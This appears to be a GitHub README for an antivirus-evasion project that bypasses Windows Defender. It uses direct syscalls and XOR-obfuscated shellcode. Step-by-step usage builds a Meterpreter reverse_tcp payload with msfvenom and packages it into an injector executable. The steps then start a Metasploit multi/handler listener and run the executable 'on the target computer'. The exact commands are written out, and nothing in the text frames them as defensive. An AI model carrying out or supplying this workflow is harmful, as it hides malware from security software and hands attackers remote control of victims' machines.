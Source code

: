 # Bypass-AV-DirectSyscalls
Scripts to bypass Windows Defender antivirus protection using the Direct Syscalls technique with an injection of shellcode previously obfuscated with an XOR function.

<p align="center">
    This project is translated from :
    <br />
    <a href="https://github.com/Processus-Thief/Bypass-AV-DirectSyscalls"><strong>https://github.com/Processus-Thief/Bypass-AV-DirectSyscalls</strong></a>
  </p>
</div>

<br /><br />

### Usage

1. Generate a Metasploit meterpreter in the form of a shellcode with msfvenom inside your Kali Linux :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Install Visual Studio Code on your PC : https://code.visualstudio.com/download

3. Install C# and PowerShell 7 extensions in VS Code. Open the terminal inside VS Code.

4. Create a new DotNet project in Visual Studio Code :
```  
dotnet new console
```
5. Replace the contents of Program.cs with the contents of XorCipher.cs and replace the shellcode with that generated with msfvenom.
6. Generate the solution in the form of a PE file with its embedded libraries :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
7. Run the compiled file in a command prompt :
```
.\XorCipher.exe
```
8. Create a second DotNet project in another instance of Visual Studio Code :
```
dotnet new console
```
9. Install the dependency DInvoke :
```
dotnet add package DInvoke --version 1.0.4
```
10. Replace the contents of Program.cs with the contents of DirectSyscalls.cs and replace the shellcode with that generated with XorCipher.exe
11. Generate the solution in the form of a PE file with its embedded libraries :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
9. Launch a listener in the metasploit console inside your Kali Linux :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
10. Launch the compiled exe on the target computer (it must be Windows). Enjoy :)
